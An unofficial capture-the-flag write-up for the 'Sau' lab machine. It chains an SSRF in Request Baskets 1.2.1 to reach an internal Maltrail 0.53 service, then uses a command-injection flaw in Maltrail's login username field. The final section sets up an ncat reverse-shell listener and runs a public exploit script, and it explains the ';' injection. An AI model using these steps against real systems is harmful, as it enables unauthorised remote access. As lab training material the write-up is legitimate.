 # Sau

<table>
  <tr>
    <td>
      <img width="150" height="150" alt="SauIcon" src="https://github.com/user-attachments/assets/ffbc035e-6ca0-4a35-a7a9-dcbc44b04f7b" />
    </td>
    <td style="vertical-align: center; padding-left: 5rem;">
      <strong>Machine Difficulty:</strong> Easy <br />
      <strong>Creator:</strong> sau123 <br />
      <u><strong>Unofficial Writeup by HeadMonitor</strong></u>
    </td>
  </tr>
</table>

## Enumeration

We scan the machine with Nmap and find 3 open ports, one **SSH**, one **http** and one **uknown**.

```bash
nmap -sC -sV ${MACHINE_IP}

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-31 15:54 UTC
Nmap scan report for ${MACHINE_IP}
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 31 Jul 2025 15:55:14 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 31 Jul 2025 15:54:47 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 31 Jul 2025 15:54:48 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=7/31%Time=688B91C8%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Thu,\x2031\x20Jul\
SF:x202025\x2015:54:47\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Thu,\x2031\x20Jul\
SF:x202025\x2015:54:48\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Thu,\x2031\x20Jul\x202025\x2015:55:14\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.11 seconds
```
<br/>

If we put the the Machine's IP on the browser we don't get any results. So lets try specifying the unknown port as well. Bingo!

<img width="1906" height="715" alt="image" src="https://github.com/user-attachments/assets/0dbb5c71-5f8a-4b39-8993-9a1ac1301cd3" />

## Website

We see a service called **Request Baskets** on **Version 1.2.1**. **Request Baskets** is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. 

A quick search will show us [**CVE-2023-27163**](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) for this exact version. We can use SSRF to get access to internal services. Earlier we saw an **http** service on port 80 which we couldn't access. So lets try to get to that.

We will first create a **New Basket**. Then we will go to **Configuration Settings** to configure our basket as follows:

<img width="600" height="384" alt="image" src="https://github.com/user-attachments/assets/dc7b9097-448c-4367-92ce-5e672a5deae6" />
<br/>

Then we will follow our Baskets URL (`http://${MACHINE_IP}:55555/${BASKET_ID}`) and find another service, **Maltrail** on **Version 0.53**!

## Foothold

The Maltrail site doesn't load the CSS properly, probably due to the Basket Forward, but we do not mind. After a quick search we find that **Maltrail** is a **Malicious Traffic Detection System** and on this version we find [**CVE-2025-34073**](https://nvd.nist.gov/vuln/detail/CVE-2025-34073). This vulnerability will let us use RCE via the username parameter in a POST request. So let's try to get a **Reverse Shell**.

[Spookier](https://github.com/spookier) has made a [Python Script](https://github.com/spookier/Maltrail-v0.53-Exploit) to make our life easier and directly exploit the vulnurability. We simply need an **Ncat** listener and to run the script. 

The script sends a cURL request to the Target URL as well as appending `/login` to the URL as that's where you can login to Maltrail. The payload contains the `username=;` field where the `;` allows us to use commands after it that will be executed on the Server.

```bash
nc -lvnp [listening_PORT]
```

```bash
python3 exploit.py [listening_IP] [listening_PORT] [target_URL]
```
